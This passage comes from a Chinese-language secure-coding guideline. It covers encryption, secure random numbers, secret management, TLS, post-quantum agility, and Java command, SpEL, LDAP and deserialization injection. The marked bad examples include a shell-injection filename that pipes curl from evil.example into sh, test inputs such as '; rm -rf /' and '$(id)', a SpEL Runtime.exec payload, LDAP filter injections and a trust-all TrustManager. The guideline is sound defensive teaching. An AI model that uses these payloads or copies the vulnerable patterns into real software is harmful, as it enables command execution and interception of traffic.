| `SCG-CRY-002` | 必須 | AES-GCM 每次加密都必須使用新的 96 位元隨機 IV（或保證不重複的計數器），IV 與密文一起儲存；同一把金鑰重複使用 IV 會讓攻擊者還原明文並偽造密文。應以 AAD 綁定資料的情境（例如資料表與欄位名稱、記錄 ID） | 🧪 同一明文加密兩次結果不同、竄改後解密失敗的測試；🤖 FindSecBugs `STATIC_IV` |
| `SCG-CRY-003` | 不應該 | 不應該自行實作加密演算法、協定或「混淆」機制（例如 XOR、Base64、自創的置換表）；應使用 JCA、Google Tink、libsodium、Web Crypto API 等成熟的實作 | 👁 程式碼審查 |

```java
// ✅ SCG-CRY-001、SCG-CRY-002：AES-256-GCM；每次加密產生新的隨機 IV；以 AAD 綁定欄位情境；輸出 = keyId | IV | 密文＋標籤
package com.example.scg.crypto;

import java.nio.ByteBuffer;
import java.nio.charset.StandardCharsets;
import java.security.GeneralSecurityException;
import java.security.SecureRandom;
import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.spec.GCMParameterSpec;

public final class FieldCipher {

    private static final String TRANSFORMATION = "AES/GCM/NoPadding";
    private static final int IV_BYTES = 12;
    private static final int TAG_BITS = 128;
    private static final SecureRandom RANDOM = new SecureRandom();

    public interface KeyProvider {
        byte currentKeyId();

        SecretKey key(byte keyId);
    }

    private final KeyProvider keys;

    public FieldCipher(KeyProvider keys) {
        this.keys = keys;
    }

    public byte[] encrypt(String plaintext, String context) throws GeneralSecurityException {
        byte keyId = keys.currentKeyId();
        byte[] iv = new byte[IV_BYTES];
        RANDOM.nextBytes(iv);
        Cipher cipher = Cipher.getInstance(TRANSFORMATION);
        cipher.init(Cipher.ENCRYPT_MODE, keys.key(keyId), new GCMParameterSpec(TAG_BITS, iv));
        cipher.updateAAD(context.getBytes(StandardCharsets.UTF_8));
        byte[] ct = cipher.doFinal(plaintext.getBytes(StandardCharsets.UTF_8));
        return ByteBuffer.allocate(1 + IV_BYTES + ct.length).put(keyId).put(iv).put(ct).array();
    }

    public String decrypt(byte[] blob, String context) throws GeneralSecurityException {
        ByteBuffer buf = ByteBuffer.wrap(blob);
        byte keyId = buf.get();
        byte[] iv = new byte[IV_BYTES];
        buf.get(iv);
        byte[] ct = new byte[buf.remaining()];
        buf.get(ct);
        Cipher cipher = Cipher.getInstance(TRANSFORMATION);
        cipher.init(Cipher.DECRYPT_MODE, keys.key(keyId), new GCMParameterSpec(TAG_BITS, iv));
        cipher.updateAAD(context.getBytes(StandardCharsets.UTF_8));
        return new String(cipher.doFinal(ct), StandardCharsets.UTF_8);   // 標籤不符時拋出 AEADBadTagException
    }
}
```

```java
// ✅ SCG-CRY-002：測試 IV 不重複、竄改密文或換到其他欄位情境都無法解密
package com.example.scg.crypto;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import javax.crypto.AEADBadTagException;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import org.junit.jupiter.api.Test;

class FieldCipherTest {

    private final SecretKey key = newKey();
    private final FieldCipher cipher = new FieldCipher(new FieldCipher.KeyProvider() {
        @Override
        public byte currentKeyId() {
            return 1;
        }

        @Override
        public SecretKey key(byte keyId) {
            return key;
        }
    });

    private static SecretKey newKey() {
        try {
            KeyGenerator g = KeyGenerator.getInstance("AES");
            g.init(256);
            return g.generateKey();
        } catch (java.security.NoSuchAlgorithmException e) {
            throw new IllegalStateException(e);
        }
    }

    @Test
    void samePlaintextEncryptsDifferently() throws Exception {
        assertThat(cipher.encrypt("A123456789", "customer.id_no"))
                .isNotEqualTo(cipher.encrypt("A123456789", "customer.id_no"));
    }

    @Test
    void roundTrip() throws Exception {
        assertThat(cipher.decrypt(cipher.encrypt("A123456789", "customer.id_no"), "customer.id_no"))
                .isEqualTo("A123456789");
    }

    @Test
    void tamperedCiphertextIsRejected() throws Exception {
        byte[] blob = cipher.encrypt("A123456789", "customer.id_no");
        blob[blob.length - 1] ^= 1;
        assertThatThrownBy(() -> cipher.decrypt(blob, "customer.id_no")).isInstanceOf(AEADBadTagException.class);
    }

    @Test
    void ciphertextCannotBeMovedToAnotherField() throws Exception {
        byte[] blob = cipher.encrypt("A123456789", "customer.id_no");
        assertThatThrownBy(() -> cipher.decrypt(blob, "customer.nickname")).isInstanceOf(AEADBadTagException.class);
    }
}
```

```java
// ❌ SCG-CRY-001：只寫 "AES" 時 Java 預設使用 AES/ECB/PKCS5Padding，相同明文區塊會產生相同密文
Cipher ecb = Cipher.getInstance("AES");
// ❌ SCG-CRY-002：固定的 IV。同一把金鑰下重複使用 GCM 的 IV，攻擊者可還原明文並偽造標籤
private static final byte[] IV = "0123456789ab".getBytes(StandardCharsets.US_ASCII);
// ❌ SCG-CRY-003：以 XOR 或 Base64「加密」。Base64 是編碼，任何人都能解開
String obfuscated = Base64.getEncoder().encodeToString(password.getBytes(StandardCharsets.UTF_8));
```

（片段：常見的加密錯誤。）

#### 🔍 5.1 審查與驗證

- **自動檢查：** SpotBugs＋FindSecBugs 的 `ECB_MODE`、`CIPHER_INTEGRITY`、`DES_USAGE`、`TDES_USAGE`、`STATIC_IV`、`WEAK_MESSAGE_DIGEST_MD5`；Semgrep `p/default` 的 `java.lang.security.audit.crypto.*` 規則；Python 見 Bandit `B303`–`B305`、`B324`、`B413`。
- **人工審查問題：**
  1. IV 是如何產生的？是否每次加密都不同？是否與密文一起儲存？
  2. 金鑰是否能輪替？密文中是否記錄了金鑰版本，讓舊資料在輪替後仍可解密？
  3. 是否有「加密」實際上只是編碼（Base64、Hex）或混淆？
- **AI 常見錯誤：** `Cipher.getInstance("AES")`；以 `"0000000000000000".getBytes()` 作為 IV；以 `SecretKeySpec(password.getBytes(), "AES")` 直接把密碼當金鑰（應使用 KMS 產生的金鑰，或以 PBKDF2／Argon2 衍生）；v2.0 範例中 GCM 加密沒有提供 IV 參數，解密端無從得知 IV。

### 5.2 安全亂數

權杖、驗證碼、Session ID、IV、金鑰、密碼重設連結都必須使用**密碼學安全的亂數產生器（CSPRNG）**。一般亂數產生器（`java.util.Random`、`Math.random()`、Python 的 `random`）的輸出可以從少量樣本預測。

| 語言 | 安全 | 不安全 |
| --- | --- | --- |
| Java | `java.security.SecureRandom`、`UUID.randomUUID()` | `java.util.Random`、`ThreadLocalRandom`、`Math.random()` |
| Python | `secrets.token_urlsafe()`、`secrets.randbelow()` | `random` 模組 |
| Node.js | `crypto.randomBytes()`、`crypto.randomUUID()`、`crypto.randomInt()` | `Math.random()` |
| 瀏覽器 | `crypto.getRandomValues()`、`crypto.randomUUID()` | `Math.random()` |
| SQL | PostgreSQL `gen_random_uuid()`、`pgcrypto` 的 `gen_random_bytes()`；Oracle `DBMS_CRYPTO.RANDOMBYTES`；SQL Server `CRYPT_GEN_RANDOM` | PostgreSQL `random()`、Oracle `DBMS_RANDOM`、SQL Server `RAND()` |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-CRY-004` | 必須 | 所有與安全相關的隨機值（權杖、驗證碼、IV、金鑰、Session ID、重設連結、檔名）必須使用 CSPRNG；權杖至少 128 位元的隨機性 | 🤖 FindSecBugs `PREDICTABLE_RANDOM`；🤖 Bandit `B311`；🤖 Semgrep `scg-insecure-random` |

```typescript
// ✅ SCG-CRY-004：Node.js 以 crypto 產生權杖與驗證碼
import { randomBytes, randomInt } from 'node:crypto';

export function newApiKey(): string {
  return randomBytes(32).toString('base64url');          // 256 位元
}

export function newOtp(): string {
  return randomInt(0, 1_000_000).toString().padStart(6, '0');
}
```

```typescript
// ❌ SCG-CRY-004：Math.random() 不是密碼學安全的亂數，V8 的實作可從輸出推回內部狀態
export function newResetToken(): string {
  return Math.random().toString(36).slice(2);
}
```

#### 🔍 5.2 審查與驗證

- **自動檢查：** FindSecBugs `PREDICTABLE_RANDOM`；Bandit `B311`；ESLint 附錄 B.3 的 `no-restricted-properties` 禁止 `Math.random`（在產生權杖的模組）；Semgrep `scg-insecure-random`。
- **人工審查問題：** 權杖的長度是否足夠（至少 16 位元組）？是否以時間戳、遞增序號或使用者 ID 組成？
- **AI 常見錯誤：** 以 `Math.random().toString(36)` 產生權杖；以 `new Random(System.currentTimeMillis())` 建立「亂數」；以 MD5(時間戳) 當作唯一識別碼。

### 5.3 金鑰與秘密管理

「秘密」包括密碼、API 金鑰、私鑰、權杖、資料庫連線字串、加密金鑰。秘密一旦進入 Git 歷史，就應視為已外洩：Git 歷史會被複製到每位開發者的電腦、CI 快取與備份中，從最新版本刪除並不能讓它消失。



| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-CRY-005` | 必須 | 加密金鑰必須由 KMS、HSM 或秘密管理系統產生與保存，應用程式只在執行時取得（或以信封加密只取得資料金鑰）；金鑰必須有版本並可輪替，密文必須記錄所用的金鑰版本 | 👁 設計與設定審查；🧪 金鑰輪替後舊資料仍可解密的測試 |
| `SCG-CRY-008` | 必須 | 秘密不得出現在原始碼、設定檔、測試資料、容器映像、前端程式、日誌或錯誤訊息中；必須在執行時由秘密管理系統或平台注入 | 🤖 Gitleaks（pre-commit＋CI）；🤖 Semgrep `p/secrets` |
| `SCG-CRY-009` | 必須 | 秘密一旦外洩（被提交到 Git、出現在日誌或工單中），必須立即撤銷並更換，再清理歷史紀錄；不得只刪除檔案或改寫 Git 歷史 | 👁 事件處理紀錄 |

```yaml
# ✅ SCG-CRY-008：設定檔只引用秘密的名稱；值由 Kubernetes Secret（由 External Secrets Operator 自 Vault 同步）注入
spring:
  datasource:
    url: jdbc:postgresql://orders-db:5432/orders?sslmode=verify-full
    username: ${DB_USERNAME}
    password: ${DB_PASSWORD}
app:
  payment:
    api-key: ${PAYMENT_API_KEY}
```

```yaml
# ❌ SCG-CRY-008：秘密直接寫在設定檔並提交到 Git
spring:
  datasource:
    password: Pr0d-P@ssw0rd-2026
app:
  payment:
    api-key: pay_live_<這裡曾經是真實的金鑰>
```

```toml
# ✅ SCG-CRY-008：.gitleaks.toml，在預設規則外加入公司內部權杖格式，並允許測試用的假值
[extend]
useDefault = true

[[rules]]
id = "example-internal-token"
description = "Example Corp internal service token"
regex = '''exc_(live|test)_[0-9a-zA-Z]{32}'''
keywords = ["exc_live_", "exc_test_"]

[allowlist]
description = "測試中明顯為假的值"
regexes = ['''exc_test_0{32}''']
paths = ['''src/test/resources/fixtures/.*\.json''']
```

```java
// ✅ SCG-CRY-005：信封加密。KMS 只負責加解密「資料金鑰」，資料本身在應用程式中以資料金鑰加密
package com.example.scg.crypto;

import java.security.GeneralSecurityException;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import javax.crypto.spec.SecretKeySpec;

public final class EnvelopeEncryption {

    /** 由雲端 KMS 或 Vault Transit 實作；主金鑰永遠不離開 KMS。 */
    public interface Kms {
        byte[] wrap(String masterKeyId, byte[] dataKey);

        byte[] unwrap(String masterKeyId, byte[] wrappedKey);
    }

    public record Envelope(String masterKeyId, byte[] wrappedDataKey, byte[] ciphertext) { }

    private final Kms kms;
    private final String masterKeyId;

    public EnvelopeEncryption(Kms kms, String masterKeyId) {
        this.kms = kms;
        this.masterKeyId = masterKeyId;
    }

    public Envelope seal(String plaintext) throws GeneralSecurityException {
        KeyGenerator gen = KeyGenerator.getInstance("AES");
        gen.init(256);
        SecretKey dataKey = gen.generateKey();
        byte[] ct = new FieldCipher(singleKey(dataKey)).encrypt(plaintext, masterKeyId);
        return new Envelope(masterKeyId, kms.wrap(masterKeyId, dataKey.getEncoded()), ct);
    }

    public String open(Envelope e) throws GeneralSecurityException {
        SecretKey dataKey = new SecretKeySpec(kms.unwrap(e.masterKeyId(), e.wrappedDataKey()), "AES");
        return new FieldCipher(singleKey(dataKey)).decrypt(e.ciphertext(), e.masterKeyId());
    }

    private static FieldCipher.KeyProvider singleKey(SecretKey key) {
        return new FieldCipher.KeyProvider() {
            @Override
            public byte currentKeyId() {
                return 0;
            }

            @Override
            public SecretKey key(byte keyId) {
                return key;
            }
        };
    }
}
```

```text
✅ SCG-CRY-009：秘密外洩的處理順序
1. 撤銷：立即在發行端（雲端主控台、IdP、金流商後台）停用外洩的金鑰或權杖。
2. 更換：產生新的秘密，寫入秘密管理系統，重新部署使用它的服務。
3. 調查：檢視外洩期間該秘密的使用紀錄，確認是否被濫用。
4. 清理：以 git filter-repo 移除歷史中的秘密並通知所有複本的持有者重新複製；這一步只是清理，不是補救。
5. 預防：補上 pre-commit 掃描或調整 .gitleaks.toml，避免再次發生。

❌ SCG-CRY-009：只做第 4 步（改寫 Git 歷史）就認為問題已解決。
```

#### 🔍 5.3 審查與驗證

- **自動檢查：** `gitleaks git --redact` 掃描完整歷史；`gitleaks dir` 掃描建置產出與容器映像解開後的檔案系統；Semgrep `p/secrets`。
- **人工審查問題：**
  1. 前端打包的 JavaScript 中是否有 API 金鑰？（前端沒有秘密：任何送到瀏覽器的值都是公開的。）
  2. 測試程式中的金鑰是否「看起來像真的」？Gitleaks 的允許清單是否過寬（例如整個 `src/test` 目錄）？
  3. 金鑰輪替時是否需要停機？密文是否記錄金鑰版本？
- **AI 常見錯誤：** 在範例或測試中寫入真實格式的金鑰；在 `application.yml` 中提供「預設值」`${DB_PASSWORD:admin123}`；把 `.env` 檔提交到 Git；在前端的環境變數（`VITE_*`、`NEXT_PUBLIC_*`）放入伺服器端金鑰。

### 5.4 傳輸層安全（TLS）

所有網路傳輸都必須加密，**包括內部網路**。零信任的前提是內部網路不可信：一台被入侵的主機就能監聽同網段的明文流量。更常見的錯誤是為了解決憑證錯誤而**關閉憑證驗證**，這會讓 TLS 完全失去防止中間人攻擊的能力。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-CRY-006` | 必須 | 不得關閉或繞過 TLS 憑證與主機名稱驗證（自訂接受所有憑證的 `TrustManager`、`HostnameVerifier` 回傳 `true`、`verify=False`、`rejectUnauthorized: false`、`NODE_TLS_REJECT_UNAUTHORIZED=0`、`curl -k`）；使用內部 CA 時，應將 CA 憑證加入信任庫 | 🤖 FindSecBugs `WEAK_TRUST_MANAGER`、`WEAK_HOSTNAME_VERIFIER`；🤖 Bandit `B501`；🤖 Semgrep `scg-tls-reject-unauthorized` |
| `SCG-CRY-007` | 必須 | 應用程式對外與對內的連線（HTTP API、資料庫、訊息佇列、快取、LDAP、SMTP）都必須使用 TLS 1.2 以上（建議 1.3），並驗證伺服器憑證；資料庫連線必須設定為驗證憑證的模式（例如 PostgreSQL `sslmode=verify-full`、SQL Server `encrypt=strict`） | 🤖 TLS 掃描（testssl.sh）；👁 連線設定審查 |

```java
// ❌ SCG-CRY-006：接受所有憑證的 TrustManager，任何中間人都能解密與竄改流量
TrustManager[] trustAll = { new X509TrustManager() {
    public void checkClientTrusted(X509Certificate[] c, String a) { }
    public void checkServerTrusted(X509Certificate[] c, String a) { }
    public X509Certificate[] getAcceptedIssuers() { return new X509Certificate[0]; }
} };
```

（片段：不得使用的寫法。）

```java
// ✅ SCG-CRY-006：使用內部 CA 時，以 Spring Boot SSL Bundle 載入 CA 憑證，而不是關閉驗證
package com.example.scg.crypto;

import org.springframework.boot.ssl.SslBundles;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.boot.http.client.HttpClientSettings;
import org.springframework.web.client.RestClient;

@Configuration
public class InternalApiClientConfig {

    @Bean
    RestClient internalApi(RestClient.Builder builder, SslBundles bundles) {
        return builder
                .baseUrl("https://inventory.internal.example.com")
                .requestFactory(org.springframework.boot.http.client.ClientHttpRequestFactoryBuilder.detect()
                        .build(HttpClientSettings.defaults().withSslBundle(bundles.getBundle("internal-ca"))))
                .build();
    }
}
```

```yaml
# ✅ SCG-CRY-006、SCG-CRY-007：SSL Bundle 只載入信任的內部 CA；資料庫以 verify-full 驗證憑證與主機名稱
spring:
  ssl:
    bundle:
      pem:
        internal-ca:
          truststore:
            certificate: file:/etc/pki/internal-ca.pem
  datasource:
    url: jdbc:postgresql://orders-db.internal.example.com:5432/orders?sslmode=verify-full&sslrootcert=/etc/pki/internal-ca.pem
```

```typescript
// ❌ SCG-CRY-006：Node.js 關閉憑證驗證
import https from 'node:https';
const agent = new https.Agent({ rejectUnauthorized: false });
process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0';
```

```typescript
// ✅ SCG-CRY-006：Node.js 以內部 CA 驗證，而不是關閉驗證
import https from 'node:https';
import { readFileSync } from 'node:fs';

export const internalAgent = new https.Agent({
  ca: readFileSync('/etc/pki/internal-ca.pem'),
  minVersion: 'TLSv1.2',
});
```

#### 🔍 5.4 審查與驗證

- **自動檢查：** FindSecBugs `WEAK_TRUST_MANAGER`、`WEAK_HOSTNAME_VERIFIER`；Bandit `B501`（`verify=False`）、`B502`–`B504`（舊版 SSL／TLS）；附錄 B.1 的 Semgrep 自訂規則 `scg-tls-reject-unauthorized`；`git grep -nE "rejectUnauthorized|NODE_TLS_REJECT_UNAUTHORIZED|verify=False|curl -k|--insecure"`。
- **人工審查問題：**
  1. 資料庫、Redis、Kafka 的連線字串是否啟用 TLS，且驗證憑證？`sslmode=require` 只加密不驗證，仍可被中間人攻擊。
  2. 測試環境為了方便關閉驗證的設定，是否可能被帶到正式環境？
- **AI 常見錯誤：** 遇到 `PKIX path building failed` 或 `self signed certificate` 錯誤時，直接產生 TrustAll 程式碼或 `verify=False`；以 `sslmode=require` 代替 `verify-full`。

### 5.5 密碼敏捷性與後量子遷移

量子電腦成熟後，RSA 與橢圓曲線的金鑰交換與簽章都可被破解。攻擊者現在就能「先收集、後解密」（harvest now, decrypt later）長期有價值的加密資料。NIST 已在 2024-08 發布 FIPS 203（ML-KEM）、FIPS 204（ML-DSA）、FIPS 205（SLH-DSA），並在 NIST IR 8547 草案中規劃 2030 年起淘汰 112 位元安全強度的傳統演算法、2035 年起全面禁用。JDK 24 起的 JCA 已提供 ML-KEM（JEP 496）與 ML-DSA（JEP 497）。

應用程式開發者現在要做的不是改用後量子演算法，而是**讓演算法可以更換**：

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-CRY-010` | 應該 | 程式碼中的密碼學用法應集中在少數元件，演算法、金鑰長度與金鑰版本應由設定決定並記錄在密文或簽章中（密碼敏捷性）；專案應維護密碼學清冊（使用了哪些演算法、在哪裡、保護什麼資料、資料需要保密多久），作為後量子遷移的依據 | 👁 程式碼與清冊審查 |

```java
// ✅ SCG-CRY-010：以 JDK 25 內建的 ML-KEM-768 進行金鑰封裝（後量子），封裝出的共享金鑰可用於 AES-GCM
package com.example.scg.crypto;

import java.security.GeneralSecurityException;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.spec.NamedParameterSpec;
import java.util.Arrays;
import javax.crypto.KEM;
import javax.crypto.SecretKey;

public final class PostQuantumKemDemo {

    private PostQuantumKemDemo() {
    }

    public static boolean roundTrip() throws GeneralSecurityException {
        KeyPairGenerator g = KeyPairGenerator.getInstance("ML-KEM");
        g.initialize(NamedParameterSpec.ML_KEM_768);
        KeyPair receiver = g.generateKeyPair();

        KEM kem = KEM.getInstance("ML-KEM");
        KEM.Encapsulated enc = kem.newEncapsulator(receiver.getPublic()).encapsulate(0, 32, "AES");
        SecretKey senderKey = enc.key();                                   // 傳送方取得共享金鑰
        SecretKey receiverKey = kem.newDecapsulator(receiver.getPrivate())
                .decapsulate(enc.encapsulation(), 0, 32, "AES");          // 接收方以私鑰解出相同金鑰
        return Arrays.equals(senderKey.getEncoded(), receiverKey.getEncoded());
    }
}
```

```yaml
# ✅ SCG-CRY-010：密碼學清冊（crypto-inventory.yaml）的一筆紀錄
- id: CI-007
  component: customer-service / FieldCipher
  purpose: 身分證字號、帳號欄位加密
  algorithm: AES-256-GCM
  key-source: Vault Transit（customer-pii，每年輪替）
  data-confidentiality-period: 15 年（契約期間＋法定保存期限）
  quantum-risk: 低（對稱加密，256 位元金鑰在量子攻擊下仍有 128 位元強度）
  migration: 不需更換演算法；確認金鑰交換通道（TLS）已規劃混合式 ML-KEM
```

#### 🔍 5.5 審查與驗證

- **自動檢查：** 以 `git grep -nE "Cipher.getInstance|MessageDigest.getInstance|Signature.getInstance|KeyPairGenerator.getInstance|createCipheriv|createHash"` 盤點密碼學用法，與清冊比對是否有遺漏。
- **人工審查問題：** 演算法名稱是否散落在各處寫死？更換演算法時要修改幾個檔案？需要保密超過 10 年的資料是否以 RSA 或 ECDH 交換的金鑰保護？
- **AI 常見錯誤：** 在每個需要加密的地方各自呼叫 `Cipher.getInstance` 並寫死參數；密文沒有版本資訊，導致日後無法辨識要用哪個演算法解密。

## 6. Java／Spring Boot

本章處理 Java 與 Spring 特有的弱點與設定。SQL 注入見第 10 章，檔案與 SSRF 見第 13 章，日誌見第 14 章。所有規則都參照 Oracle 的 [Secure Coding Guidelines for Java SE](https://www.oracle.com/java/technologies/javase/seccodeguide.html)（文件版本 11.0，2025-06）與 [SEI CERT Oracle Coding Standard for Java](https://cmu-sei.github.io/secure-coding-standards/sei-cert-oracle-coding-standard-for-java/)。

### 6.1 命令、運算式與 LDAP 注入

注入的共同原因是把**資料拼進程式碼**。在 Java 中，除了 SQL，最常見的「程式碼」還有作業系統命令、Spring 運算式（SpEL）、樣板引擎與 LDAP 過濾條件。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-JAVA-001` | 必須 | 執行外部程式必須使用 `ProcessBuilder` 並以 `List<String>` 傳入程式與參數，不得透過 shell（`sh -c`、`cmd /c`）或以字串串接命令；使用者輸入只能作為參數，並以允許清單驗證，必要時以 `--` 結束選項解析 | 🤖 FindSecBugs `COMMAND_INJECTION`；🤖 Semgrep；🧪 以 `; rm -rf /`、`$(id)` 等輸入測試 |
| `SCG-JAVA-002` | 必須 | 不得以外部輸入建構或求值 SpEL、OGNL、MVEL、JEXL、Groovy、JavaScript 引擎的運算式，也不得把外部輸入當作樣板（Thymeleaf、FreeMarker、Velocity）的樣板內容；需要動態規則時使用固定的運算式或資料驅動的規則表 | 🤖 FindSecBugs `SPEL_INJECTION`、`TEMPLATE_INJECTION_*`；🤖 Semgrep |
| `SCG-JAVA-003` | 必須 | LDAP 查詢必須以 Spring LDAP 的 `LdapQueryBuilder` 參數化，或以 `LdapEncoder.filterEncode` 編碼使用者輸入；不得以字串串接 LDAP 過濾條件 | 🤖 FindSecBugs `LDAP_INJECTION`；🧪 以 `*)(uid=*` 測試 |

```java
// ❌ SCG-JAVA-001：透過 shell 串接命令。檔名輸入 "a.pdf; curl https://evil.example/x | sh" 即可執行任意命令
package com.example.scg.bad;

import java.io.IOException;

public class ThumbnailBad {
    public Process make(String fileName) throws IOException {
        return Runtime.getRuntime().exec(new String[] {"sh", "-c", "convert /data/" + fileName + " /tmp/thumb.png"});
    }
}
```

```java
// ✅ SCG-JAVA-001：不經 shell；檔名以允許清單驗證；以 -- 結束選項解析，避免以 - 開頭的檔名被當成選項
package com.example.scg.java;

import java.io.IOException;
import java.nio.file.Path;
import java.util.List;
import java.util.concurrent.TimeUnit;
import java.util.regex.Pattern;

public final class ThumbnailService {

    private static final Pattern SAFE_NAME = Pattern.compile("^\\w[\\w-]{0,63}\\.(pdf|png|jpg)$");   // 不可以 - 開頭
    private static final Path BASE = Path.of("/data/uploads");

    public static List<String> command(String fileName) {
        if (!SAFE_NAME.matcher(fileName).matches()) {
            throw new IllegalArgumentException("不合法的檔名");
        }
        return List.of("convert", "--", BASE.resolve(fileName).toString(), "/tmp/thumb.png");
    }

    public int make(String fileName) throws IOException, InterruptedException {
        Process p = new ProcessBuilder(command(fileName))
                .redirectErrorStream(true)
                .start();
        if (!p.waitFor(30, TimeUnit.SECONDS)) {               // 外部程式也要有逾時（SCG-GEN-009）
            p.destroyForcibly();
            throw new IllegalStateException("轉檔逾時");
        }
        return p.exitValue();
    }
}
```

```java
// ✅ SCG-JAVA-001：測試命令注入的輸入被拒絕
package com.example.scg.java;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import org.junit.jupiter.api.Test;

class ThumbnailServiceTest {

    @Test
    void rejectsShellMetacharactersAndOptions() {
        for (String bad : new String[] {"a.pdf; id", "$(id).pdf", "../etc/passwd", "-density.pdf", "a.pdf\n"}) {
            assertThatThrownBy(() -> ThumbnailService.command(bad)).as(bad).isInstanceOf(IllegalArgumentException.class);
        }
    }

    @Test
    void buildsArgumentListWithoutShell() {
        assertThat(ThumbnailService.command("report_01.pdf"))
                .containsExactly("convert", "--", java.nio.file.Path.of("/data/uploads/report_01.pdf").toString(), "/tmp/thumb.png");
    }
}
```

```java
// ❌ SCG-JAVA-002：以使用者輸入作為 SpEL 運算式。輸入 T(java.lang.Runtime).getRuntime().exec('id') 即可執行命令
package com.example.scg.bad;

import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class DiscountRuleBad {
    private final ExpressionParser parser = new SpelExpressionParser();

    public Object evaluate(String ruleFromRequest) {
        return parser.parseExpression(ruleFromRequest).getValue();
    }
}
```

```java
// ✅ SCG-JAVA-002：規則以資料表示（欄位、運算子、值），只允許預先定義的運算子；不求值任何運算式字串
package com.example.scg.java;

import java.math.BigDecimal;
import java.util.Map;
import java.util.function.BiPredicate;

public final class DiscountRule {

    public enum Field { ORDER_AMOUNT, ITEM_COUNT }

    public enum Operator {
        GT((a, b) -> a.compareTo(b) > 0),
        GE((a, b) -> a.compareTo(b) >= 0),
        EQ((a, b) -> a.compareTo(b) == 0);

        private final BiPredicate<BigDecimal, BigDecimal> test;

        Operator(BiPredicate<BigDecimal, BigDecimal> test) {
            this.test = test;
        }
    }

    private final Field field;
    private final Operator operator;
    private final BigDecimal threshold;

    public DiscountRule(Field field, Operator operator, BigDecimal threshold) {
        this.field = field;
        this.operator = operator;
        this.threshold = threshold;
    }

    public boolean matches(Map<Field, BigDecimal> facts) {
        BigDecimal actual = facts.get(field);
        return actual != null && operator.test.test(actual, threshold);
    }
}
```

```java
// ✅ SCG-JAVA-003：以 LdapQueryBuilder 參數化查詢；輸入 "*)(uid=*" 會被編碼為字面值，而不是過濾條件
package com.example.scg.java;

import static org.springframework.ldap.query.LdapQueryBuilder.query;

import java.util.List;
import org.springframework.ldap.core.LdapTemplate;

public class DirectoryLookup {

    private final LdapTemplate ldap;

    public DirectoryLookup(LdapTemplate ldap) {
        this.ldap = ldap;
    }

    public List<String> findDisplayNames(String employeeId) {
        return ldap.search(
                query().base("ou=people").where("objectClass").is("person").and("employeeNumber").is(employeeId),
                (org.springframework.ldap.core.AttributesMapper<String>) attrs -> (String) attrs.get("displayName").get());
    }
}
```

```java
// ❌ SCG-JAVA-003：字串串接 LDAP 過濾條件；輸入 "*)(|(uid=*" 可列出整個目錄
String filter = "(&(objectClass=person)(employeeNumber=" + employeeId + "))";
```

（片段：LDAP 注入的反例。）

#### 🔍 6.1 審查與驗證

- **自動檢查：** SpotBugs＋FindSecBugs 的 `COMMAND_INJECTION`、`SPEL_INJECTION`、`EL_INJECTION`、`OGNL_INJECTION`、`TEMPLATE_INJECTION_FREEMARKER`、`TEMPLATE_INJECTION_VELOCITY`、`LDAP_INJECTION`；Semgrep `p/java` 規則集。附錄 F.2 記錄了本節 ❌ 範例被工具偵測的結果。注意：FindSecBugs 對上面 ✅ 的 `ThumbnailService` 仍會報告 `COMMAND_INJECTION`，因為工具無法判斷參數已經過允許清單驗證；這時應由審查者確認驗證邏輯與測試，再依 0.6 節以附上例外編號的 `@SuppressFBWarnings` 抑制，而不是關閉整條規則。
- **人工審查問題：**
  1. 有沒有 `Runtime.exec`、`ProcessBuilder` 的參數包含 `sh`、`bash`、`cmd`、`powershell`？
  2. 有沒有 `SpelExpressionParser`、`ScriptEngineManager`、`GroovyShell`、`Template` 的輸入來自資料庫或請求？（資料庫中的規則也可能被管理介面或 SQL 注入竄改。）
  3. 外部程式的執行是否有逾時與輸出大小限制？
- **AI 常見錯誤：** 以 `"cmd /c " + input` 或 `bash -c` 執行命令；以 SpEL 實作「彈性的商業規則」；使用 Thymeleaf 的 `__${...}__` 預處理語法處理使用者輸入（會造成樣板注入）。

### 6.2 不安全的反序列化

反序列化不可信的資料，等於讓攻擊者決定要建立哪些物件、執行哪些建構子與 setter。Java 原生序列化（`ObjectInputStream`）與「依類別名稱決定型別」的 JSON／YAML 反序列化，都已被證實可以串成遠端程式執行（gadget chain）。React Server Components 的 CVE-2025-55182（見 9.4）也是同一類問題。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-JAVA-004` | 必須 | 不得以 Java 原生序列化（`ObjectInputStream.readObject`、`XMLDecoder`、XStream 未設允許清單）處理不可信的資料；應改用 JSON 等資料格式。無法避免時，必須以 `ObjectInputFilter` 設定類別允許清單、深度與大小上限 | 🤖 FindSecBugs `OBJECT_DESERIALIZATION`、`XML_DECODER`；🤖 Semgrep |
| `SCG-JAVA-005` | 必須 | Jackson 不得啟用預設型別（`activateDefaultTyping`、`enableDefaultTyping`）或在不可信資料的類別使用 `@JsonTypeInfo(use = Id.CLASS / MINIMAL_CLASS)`；多型 JSON 必須以 `Id.NAME` 搭配 `@JsonSubTypes` 或 sealed 型別列出允許的子型別。SnakeYAML 必須使用 `SafeConstructor` 或明確的 `LoaderOptions` 標籤限制 | 🤖 FindSecBugs `JACKSON_UNSAFE_DESERIALIZATION`；🤖 Semgrep；🧪 送入未列出的型別名稱的測試 |

```java
// ❌ SCG-JAVA-004：從請求本文直接反序列化 Java 物件
package com.example.scg.bad;

import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;

public class CartRestoreBad {
    public Object restore(InputStream body) throws IOException, ClassNotFoundException {
        try (ObjectInputStream in = new ObjectInputStream(body)) {
